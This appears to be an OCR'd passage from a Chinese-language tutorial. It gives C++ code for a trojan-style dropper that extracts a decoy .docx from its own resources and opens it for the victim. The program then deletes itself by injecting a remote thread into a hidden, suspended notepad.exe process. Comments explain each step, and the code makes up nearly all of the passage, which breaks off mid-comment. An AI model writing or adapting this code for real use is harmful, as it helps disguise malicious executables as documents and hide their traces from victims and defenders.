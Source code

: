 ```cpp
    WriteFile(FILE, PFILE, FileSize, &dwSize, NULL);
    // 把资源文件中的内容写入

    // 2. 打开 .docx 文件
    SHELLEXECUTEINFOA shellexecute = { 0 };
    shellexecute.cbSize = sizeof(shellexecute);
    shellexecute.lpFile = FileName;
    shellexecute.nShow = SW_SHOW;
    ShellExecuteExA(&shellexecute);
    //打开docx文件

    // 3. 实现自删除
    //下面是实现自删除，网上的自删除方法有很多，用的多的是批处理，这里是创建一个进程然后用远程线程注入来让notepad删除当前程序
    STARTUPINFOA si = { 0 };
    PROCESS_INFORMATION  pi = { 0 };
    CreateProcessA("c:\\windows\\system32\\notepad.exe", 0, 0, 0, TRUE, CREATE_NO_WINDOW | CREATE_SUSPENDED, 0, 0, &si, &pi);
    //创建进程
    DeleteStruct DS;
    DS.dwDeleteFile = GetProcAddress(GetModuleHandleA("kernel32.dll"), "DeleteFileA");
    GetModuleFileNameA(NULL, DS.dwDeleteFile_param_1, MAX_PATH);
    //创建远程线程不能直接使用API，需要把函数指针放在结构中传过去
    //这里需要DeleteFileA这个函数，用GetProcAddress得到指针后传过去

    LPVOID ADDRESS = VirtualAllocEx(pi.hProcess, 0, 2048, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(pi.hProcess, ADDRESS, &threadProc, 2048, 0);
    //为函数开辟一块内存

    LPVOID pRemoteParam = VirtualAllocEx(pi.hProcess, 0, sizeof(DS), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(pi.hProcess, pRemoteParam, &DS, sizeof(DS), 0);
    DWORD RETSIZE;
    //为参数开辟一块内存
    HANDLE Thread = CreateRemoteThread(pi.hProcess, NULL, NULL, (LPTHREAD_START_ROUTINE)ADDRESS, pRemoteParam, 0, &RETSIZE);
    //执行该线程
    CloseHandle(Thread);
    //关闭句柄

}
```

---

#### 从资源中提取 .docx 文件

```cpp
CHAR PathFileName[MAX_PATH] = { 0 }; // 初始化当前文件路径
CHAR FileName[MAX_PATH] = { 0 };  // 初始化当前文件名

// 1. 从资源中提取 `.docx` 文件
HRSRC Resource = FindResourceA(NULL, MAKEINTRESOURCEA(101), "docx");
//得到资源文件HRSRC句柄
HGLOBAL ResourceGlobal = LoadResource(NULL, Resource);
//得到资源文件ResourceGlobal句柄
DWORD FileSize = SizeofResource(NULL, Resource);
//得到资源文件的大小
LPVOID PFILE = LockResource(ResourceGlobal);
//得到指向资源文件内容的指针
GetModuleFileNameA(NULL, PathFileName, MAX_PATH);
//当前进程的路径和名称
strcpy_s(FileName, strrchr(PathFileName, '\\')+1);
/*
strrchr得到第二个参数最后出现的位置
```